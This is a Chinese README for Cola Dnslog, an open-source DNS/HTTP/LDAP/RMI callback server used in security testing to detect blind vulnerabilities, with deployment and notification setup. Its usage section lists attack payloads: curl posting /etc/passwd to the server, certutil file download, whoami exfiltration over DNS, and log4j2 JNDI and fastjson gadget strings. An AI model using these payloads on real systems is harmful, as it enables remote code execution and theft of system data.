

<div align="center">


</div>
英文版本在路上......

# Cola Dnslog

<div align="right">
<p>--AbelChe</p>
</div>
Cola Dnslog 是一款更加强大的dnslog平台（无回显漏洞探测辅助平台），

- 完全开源
- 支持dns http ldap rmi等协议
- 提供API调用方式便于与其他工具结合
- 支持钉钉机器人、Bark等提醒
- 支持docker一键部署


------

涉及到技术、框架：

`dns` `http` `ldap` `rmi` `webui` `vue-element-admin` `fastapi` `sqlite`

可帮助检测漏洞：

`log4j2` `fastjson` `ruoyi` `Spring` `RCE` `Blind SQL` `Bland XXE`

特色：

`Dingtalk Robot` `Bark` `API` `ldaplog` `rmilog` `Docker`

[](https://starchart.cc/AbelChe/cola_dnslog)

## 🥯 使用方法

> 假设你购买的域名为`example.com`
>
> 你的vps ip为`1.1.1.1`

### 域名

请自行购买域名，并将域名的解析服务器托管至部署cola_dnslog的服务器

以godaddy为例

1. 配置域名解析处右上角三个点，点击Host Names


2. 修改或新增主机名如下图所示，ip地址填写你的vps地址即可


3. 回到dns管理，将域名服务器修改为`ns1.example.com`和`ns2.example.com`


### 安装部署

> 因为一些国内网络众所周知的原因，大多数同学使用国内VPS都会卡在前端npm构建的时候，目前暂未找到更好的解决方案，建议使用国外或者网络畅通的VPS搭建。
>
> 欢迎大家提issues!

#### Docker（推荐）

##### 一键启动（推荐）

1. 下载源码

```sh
git clone https://github.com/Abelche/cola_dnslog.git
cd cola_dnslog
```

2. 修改docker-compose.yml中environment变量

```yml
...
  server:
    ...
    environment:
      DNS_DOMAIN: example.com # 自己的域名
      NS1_DOMAIN: ns1.example.com # ns1绑定
      NS2_DOMAIN: ns2.example.com # ns2绑定
      SERVER_IP: 1.1.1.1 # vps ip
      HTTP_PORT: 80 # httplog服务端口
      HTTP_RESPONSE_SERVER_VERSION: nginx # httplog返回头的服务端信息Server: nginx
      LDAP_PORT: 1389 # ldaplog服务端口
      RMI_PORT: 1099 # rmilog服务端口
    ...
  front:
  	...
    environment:
      API_BASE_URL: 'http://1.1.1.1:28001' # http://vpsip:28001 / http://example.com:28001
    ...

```

3. 启动

```sh
docker-compose up -d
```

4. 启动之后查看docker日志或者查看info.txt获取账号信息

> server端程序运行会在程序根目录创建一个info.txt用于记录初始化的账号信息

```sh
docker-compose logs
docker exec -it <container_id> cat /coladnslog/info.txt
```



> 如果需要自定义端口，请修改`docker-compose.yml`的端口映射`ports`即可


##### 前后端分离部署

服务端：

```sh
git clone https://github.com/Abelche/cola_dnslog.git
cd cola_dnslog

docker build -t coladnslog_server -f Dockerfile_server .
docker run -itd -p 53:53/udp \
-p 80:80 \
-p 1099:1099 \
-p 1389:1389 \
-p 28001:28001 \
-e DNS_DOMAIN=example.com \
-e NS1_DOMAIN=ns1.example.com \
-e NS2_DOMAIN=ns2.example.com \
-e SERVER_IP=1.1.1.1 \
--name ColaDnslog_server coladnslog_server
```

客户端：

```sh
git clone https://github.com/Abelche/cola_dnslog.git
cd cola_dnslog

sudo docker build -t coladnslogfront -f Dockerfile_front .
sudo docker run -itd -p 18080:18080 coladnslogfront
```


#### 源码安装

共分四步

##### **第一步 下载源码**

下载源码

```sh
git clone https://github.com/Abelche/cola_dnslog.git
```

> 我习惯于将服务用`tmux`放到后台运行

##### **第二步 启动webserver**

安装python（python>=3.7）依赖

注意，需要用python3.7及以上版本，否则会有兼容性问题，多python推荐使用conda

```sh
cd cola_dnslog
pip install -r requirements.txt
```

修改根目录下的`config.yaml`

主要需要修改`DNS_DOMAIN` `NS1_DOMAIN` `NS2_DOMAIN` `SERVER_IP`

可选: 修改`HTTP_RESPONSE_SERVER_VERSION`伪造http返回中Server字段

```yaml
global:
  DB_FILENAME: sqlite.db

logserver:
  DNS_DOMAIN: example.com
  NS1_DOMAIN: ns1.example.com
  NS2_DOMAIN: ns2.example.com
  SERVER_IP: 1.1.1.1
  DNS_PORT: 53
  HTTP_HOST: 0.0.0.0
  HTTP_PORT: 80
  HTTP_RESPONSE_SERVER_VERSION: nginx
  LDAP_HOST: 0.0.0.0
  LDAP_PORT: 1389
  RMI_HOST: 0.0.0.0
  RMI_PORT: 1099

webserver:
  HOST: 0.0.0.0
  PORT: 28001
  PASSWORD_SALT: 随便一长串字符串，如：cuau89j2iifdas8
```

启动webserber端和logserver端，注意这里一定要先启动webserver端（因为要先通过webserver端初始化数据库，初始化之后会在终端输出账号、密码、token、logid等信息。

```sh
chmod +x start_webserver
./start_webserver
```


##### **第三步 启动logserver**

```sh
chmod +x start_logserver
./start_logserver
```


##### **第四步 启动前端**

现在来到前端（不一定要和webserver放在一起，你甚至可以通过electron打包成本地客户端），先修改配置文件`.env.production`

```sh
cd src/front
vim .env.production
```

```ini
# just a flag
ENV = 'production'

# base api
VUE_APP_BASE_API = 'http://1.1.1.1:28001'

TARGET_API = 'http://1.1.1.1:28001'
```

然后npm安装依赖、打包、启动http服务（这里可以随意选择http服务器，为了方便我直接用python启动）

```sh
cd src/front
npm install
npm run build:prod

cd dist
python3 -m http.server 18001
```

至此，三端（webserver端、logserver端、webui前端）已经全部开启！

这时，访问http://1.1.1.1:18001应该可以看到登录页面！

玩得开心！

### 钉钉机器人

在钉钉群新建机器人，安全设置：添加自定义关键词`coladnslog`


并获取到webhook的token，注意，只需要填写token即可


进入webui，修改Dingtalk Robot Token为上文获取的token，点击Update保存即可


效果如下：


### Bark

[Finb/Bark: Bark is an iOS App which allows you to push custom notifications to your iPhone (github.com)](https://github.com/Finb/Bark)

[Finb/bark-server: Backend of Bark (github.com)](https://github.com/Finb/bark-server)

同上 进入webui，开启Bark开关，然后修改bark url，点击Update保存


效果如下：


### 如何使用

上文提到，假定我的域名和ip是`example.com`和`1.1.1.1`，并且我们账户的logid为`qrq`

#### DNS

```sh
nsloopup `whoami`.qrq.example.com
ping `whoami`.qrq.example.com
```

#### HTTP

```sh
curl 1.1.1.1/qrq/some/info
curl -d @/etc/passwd 1.1.1.1/qrq/postdata
certutil -urlcache -split -f http://1.1.1.1/x x
```

#### LDAP

log4j2 fastjson等可以使用此方法

注意这里必须要令最后路径的最后作为logid，如：`ldapqrq` `xxxxqrq` `qrq` `xxx/qrq`

```
${jndi:ldap://1.1.1.1:1389/ldapqrq}
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://1.1.1.1:1389/ldapqrq", "autoCommit":true}
```

#### RMI

同上，log4j2 fastjson等

```
${jndi:rmi://1.1.1.1:1099/rmiqrq}
{ "b":{ "@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"rmi://1.1.1.1:1099/rmiqrq", "autoCommit":true } }
```

## 👀 概览

### 登录


### 首页


### Dnslog


### Httplog


### Ldaplog


### Rmilog


### 账号信息


### 钉钉机器人


### Bark


## 📔 更新日志

- 2023-02-03 v1.3.2
  1. 修改默认解析记录，domain[.]com和*[.]domain[.]com的A记录查询指向127.0.0.1，增加`md5(serverip)`[.]admin[.]domain[.]com作为域名访问的入口
  2. 修复问题：logserver报错崩溃`Segmentation fault` [issues19](https://github.com/AbelChe/cola_dnslog/issues/19)
  3. 支持多类型数据库，[issues21](https://github.com/AbelChe/cola_dnslog/issues/21)
  4. 修改默认的docker前端部署方式（无需用户编译）
- 2022-08-12 v1.3.1
  1. 修复docker部署方式dns端口冲突问题
- 2022-08-12 v1.3.0
  1. 创建api文档https://abelche.github.io/cola_dnslog/
  2. 更新docker部署方式
  3. 修复部分显示问题
- 2022-08-09 v1.2.2 v1.2.3
  1. 更新readme
  2. 修复文件名拼写错误
- 2022-08-03 v1.2.1
  1. 更新readme
- 2022-08-02 v1.2.0
  1. 增加bark提醒功能
  2. 修改logserver端http的返回为1x1的gif格式图片
  3. 增加http返回包里`Server`字段的伪造功能
  3. 修复前端profile页面开关bug
- 2022-08-01 v1.1.0
  1. 增加重新生成token、修改密码功能
  2. 优化前端展示效果，优化渲染速度
  3. 增加id排序功能
  4. 首页Usage部分根据服务端自动生成
  5. 增加钉钉机器人
  6. 修复rmi协议解析bug
- 2022-07-30 v1.0.0
  1. cola_dnslog发布 v1.0.0

## 🎯 ==TODO==

- [x] 联动钉钉【2022-07-31】 
- [x] 联动bark【2022-08-02】
- [x] 添加api文档【2022-08-12】
- [ ] 增加ip属地功能
- [x] docker一键部署【2022-08-12】
- [ ] 其他协议

## 📜 声明

本项目使用 Apache License 2.0


## 🌟 404星链计划


Cola Dnslog 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)

## 💦 其他

### 🎖 他们也出力了！

<table>
  <tr>
    <td align="center"><a href="https://github.com/Weik1"><br /><sub><b>Weik1
</b></sub></a><br />🐡
  </tr>
<table>

### 🎉 参考

- https://panjiachen.github.io/vue-element-admin-site/zh/
- [https://github.com/NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper)
- https://docs.oracle.com/javase/7/docs/technotes/guides/rmi/faq.html#netcontact
- http://www.hackdig.com/02/hack-596460.htm
- 太多了没法一一列出......................

### ☕️ buy me a coffee 3q

师傅们可以加我wx，一起交流进步`RG9nZ3lDaGVuZwo=`

| 给他买杯咖啡，让他接着码！ | 也可以加星球一起交流（免费） |
| -------------------------- | -------------------------- |

<div align="center">


</div>